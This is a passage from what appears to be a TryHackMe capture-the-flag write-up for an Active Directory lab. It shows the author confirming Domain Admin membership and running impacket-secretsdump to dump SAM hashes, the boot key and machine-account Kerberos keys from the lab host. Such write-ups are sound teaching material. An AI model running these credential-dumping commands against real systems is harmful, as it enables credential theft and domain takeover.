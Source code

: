 ```PowerShell
C:\Users\enterprise-core-vn\Desktop>type user.txt
  THM{[removed]]}
```

## Privilege Escalation Administrator

I procceded by checking the permissions for the user `a-whitehat` on the server:
```PowerShell
C:\Users\enterprise-core-vn\Desktop>whoami /groups


  GROUP INFORMATION
  -----------------

  Group Name                                         Type             SID                                          Attributes                                                     
  ================================================== ================ ============================================ ===============================================================
  Everyone                                           Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group             
  BUILTIN\Users                                      Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group             
  BUILTIN\Pre-Windows 2000 Compatible Access         Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group             
  BUILTIN\Administrators                             Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
  NT AUTHORITY\NETWORK                               Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group             
  NT AUTHORITY\Authenticated Users                   Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group             
  NT AUTHORITY\This Organization                     Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group             
  VULNNET-RST\Domain Admins                          Group            S-1-5-21-1589833671-435344116-4136949213-512 Mandatory group, Enabled by default, Enabled group             
  VULNNET-RST\Denied RODC Password Replication Group Alias            S-1-5-21-1589833671-435344116-4136949213-572 Mandatory group, Enabled by default, Enabled group, Local Group
  NT AUTHORITY\NTLM Authentication                   Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group             
  Mandatory Label\High Mandatory Level               Label            S-1-16-12288
```

Great! The user is member of the domain admin group, meaning I should be able to dump the `administrator` hash unsing `impacket-secretsdump`:
```PowerShell
$ impacket-secretsdump vulnnet-rst.local/a-whitehat@10.10.185.116
  Impacket v0.12.0.dev1 - Copyright 2023 Fortra

  Password:
  [*] Service RemoteRegistry is in stopped state
  [*] Starting service RemoteRegistry
  [*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aa[removed]ee:c2[removed]09d:::
  Guest:501:aa[removed]ee:31[removed]c0:::
  DefaultAccount:503:aa[removed]ee:31[removed]c0:::
  [-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
  [*] Dumping cached domain logon information (domain/username:hash)
  [*] Dumping LSA Secrets
  [*] $MACHINE.ACC 
  VULNNET-RST\WIN-2BO8M1OE1M1$:aes256-cts-hmac-sha1-96:6a4174ca9dea5402dcd48c64b1f2e3981e7c10fe3364c6f378445dc9d2a4ba33                                             
  VULNNET-RST\WIN-2BO8M1OE1M1$:aes128-cts-hmac-sha1-96:0311cbb31013e0c13df1d65861c0f867                                                                             
```